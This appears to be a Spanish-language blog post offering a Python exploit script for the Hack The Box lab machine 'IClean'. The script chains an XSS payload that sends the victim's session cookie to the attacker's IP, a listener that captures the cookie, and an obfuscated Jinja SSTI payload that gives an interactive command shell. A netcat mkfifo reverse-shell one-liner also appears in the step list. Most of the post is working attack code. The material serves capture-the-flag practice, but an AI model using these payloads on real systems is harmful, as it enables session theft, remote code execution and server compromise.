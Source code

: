 ```yaml
---

title: ICleanHTB 
date: 2024-04-13 07:03 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true
image:
  path: /assets/img/commons/ICleanHTB/bannerICleanHTB.png
  width: 66
  height: 40
  alt: IClean
---
```


Este script se aprovecha un XSS y un SSTI en la máquina IClean de HTB.

   1. El endPoint `/sendMessage` es vulnerable a XSS, realizamos una petición a un servidor en nuestra máquina
   2. Creamos un servidor, se recibe una cookie de session.
   3. Con la cookie podemos acceder a `/QRGenerator`, la variable `qr_link` es vulnerable a SSTI, y podemos realizar ejecución de comandos.
   4. Revshells nc mkfifo -> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`

<figure style="text-align: center;">
  <img src="/assets/img/commons/ICleanHTB/ICleanHTB.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;"></figcaption>
</figure>

-----------------------------------------------------------------------------------------------

```python
#!/usr/bin/env python3

import requests
import sys
import re
import socket
import signal
from termcolor import colored
from urllib.parse import quote
from http.server import BaseHTTPRequestHandler, HTTPServer

miIP = "10.10.16.9"
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
}

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

def serverPY():
    host = ''
    port = 80
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((host, port))
        s.listen(1)
        print(colored(f"\n\t[+] Server Python: ", 'blue'))
        conn, addr = s.accept()
        print(f"\t\t- Conexión: {addr}, Cookie Recibida")
        received_data = b""
        while True:
            data = conn.recv(1024)
            if not data:
                break
            received_data += data
        decoded_data = received_data.decode('utf-8')
        session_index = decoded_data.find('session=')
        if session_index != -1:
            session_content = decoded_data[session_index + len('session='):]
            cookieRC = session_content.split()[0]
            print(f'\t\t- Cookie: {cookieRC}')
        return cookieRC

def exCookie():
    urlCookie = "http://capiclean.htb/sendMessage"
    data = {
        'service' : f'<img src=x onerror=fetch("http://{miIP}/"+document.cookie);>',
        'email' : 'test@test.com',
    }
    r = requests.post(urlCookie, headers=headers, data=data)

def sttiPost(cookieRC, headers):
    while True:
        command = input(colored("\n\t[+] Command -> ", 'blue'))
        url = 'http://capiclean.htb/QRGenerator'

        cookies = {
            'session': f"{cookieRC}"
        }
        data = {
            'invoice_id': '',
            'form_type': 'scannable_invoice',
            'qr_link': '{{request|attr(\'application\')|attr(\'\\x5f\\x5fglobals\\x5f\\x5f\')|attr(\'\\x5f\\x5fgetitem\\x5f\\x5f\')(\'\\x5f\\x5fbuiltins\\x5f\\x5f\')|attr(\'\\x5f\\x5fgetitem\\x5f\\x5f\')(\'\\x5f\\x5fimport\\x5f\\x5f\')(\'os\')|attr(\'popen\')(\'id\')|attr(\'read\')()}}'.replace('id', command)
        }
        response = requests.post(url, headers=headers, cookies=cookies, data=data)
        response_text = response.text
        filterResponse = re.search(r'<div class="qr-code-container">.*?<img src="(data:image\/png;base64,.*?)".*?>', response_text, re.DOTALL)
        filterClean = filterResponse.group(1)
        match = filterClean.replace("data:image/png;base64,", "")
        if match:
            print("\t\t $>", match) 
        else:
            print("No se encontró el código de la imagen base64.")
        continue

def main():
    print(colored(f"\n[+] Este script se aprovecha de la vulnerabilidad XSS y SSTI en la máquina ICLEAN", 'green'))
    exCookie()
    cookie_rc = serverPY()
    sttiPost(cookie_rc, headers)

if __name__ == '__main__':
    main()
```
